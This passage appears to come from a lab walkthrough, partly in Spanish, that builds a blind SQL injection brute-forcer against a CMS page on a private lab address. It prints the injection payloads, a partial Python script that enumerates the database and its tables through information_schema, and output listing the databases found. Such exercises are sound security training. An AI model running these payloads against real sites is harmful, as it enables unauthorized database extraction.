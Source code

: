 ```database += character```
20

```python
database += ","   
```

Once database finds the database, basically with this we are going to add a comma


```python
if __name__ == '__main__':
```
Here we indicate where the program flow starts.
Now we are going to define a function called "make_request".

21

```python
 makeRequest()
```

output
```bash
[ ] Fuerza bruta: http://192.168.100.52/imfadministrator/cms.php?pagename=home'+and+(select+substring(schema_name,29,1)+from+information_schema.schemata+limit+5,1)='_
[+] Databases: information_schema,admin,mysql,performance_schema,sys,
```
now let's find the tables ```+and+(select+substring(table_name,{position_character},1)+from+information_schema.tables+where+table_schema='admin'+limit+{dbs},1)='{character}"```

```python
   1   │ from pwn import *
   2   │ import requests, pdb, signal, time, sys, string
   3   │ 
   4   │ def def_handler(sig,frame):
   5   │     print("\n\n[!] Saliendo...\n")
   6   │     sys.exit(1)
   7   │ 
   8   │ 
   9   │ # Ctrl+C
  10   │ signal.signal(signal.SIGINT, def_handler)
  11   │ 
  12   │ #Variables Globales
  13   │ main_url = "http://192.168.100.52/imfadministrator/cms.php?pagename=home"
  14   │ characters = string.ascii_lowercase + '-_'
  15   │ 
  16   │ 
  17   │ def makeRequest():
  18   │ 
  19   │     cookies = {'PHPSESSID': 'rftk9b1ducfunqjmrks8bcfb04'}
  20   │ 
  21   │     database = ""
  22   │     p1 =log.progress("Fuerza bruta")
  23   │     p1.status("Iniciando proceso de fuerza bruta")
  24   │ 
  25   │     time.sleep(2)
  26   │ 
  27   │     p2 = log.progress("Tables")
  28   │ 
  29   │ 
  30   │     for dbs in range(0, 6):
  31   │         for position_character in range(1, 30): 
  32   │             for character in characters:
  33   │                 sqli = main_url + f"'+and+(select+substring(table_name,{position_character},1)+from+information_schema.tables+where+table_schema='admin'+limit+{dbs},1)='{character}"
  34   │ 
  35   │                 p1.status(sqli)
  36   │ 
```